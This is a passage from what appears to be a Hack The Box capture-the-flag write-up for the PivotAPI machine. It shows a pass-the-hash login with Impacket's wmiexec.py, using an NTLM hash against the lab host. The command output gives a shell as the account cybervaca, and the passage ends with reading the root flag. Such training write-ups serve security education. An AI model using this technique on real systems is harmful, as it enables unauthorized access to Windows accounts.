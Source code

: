 ### Shell

Those hashes will work for a Pass-The-Hash to get a shell as any of the accounts, like administrator or the other administrator, cybervaca. Since cybervaca has the root flag, I’ll get a shell as that user using `wmiexec`:

```

oxdf@parrot$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef cybervaca@10.10.10.240
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
licordebellota\cybervaca
C:\>cd \users\cybervaca\desktop
C:\users\cybervaca\desktop>type root.txt
b32c5e3e************************

```

[« PivotAPI Walkthrough](/2021/11/06/htb-pivotapi.html)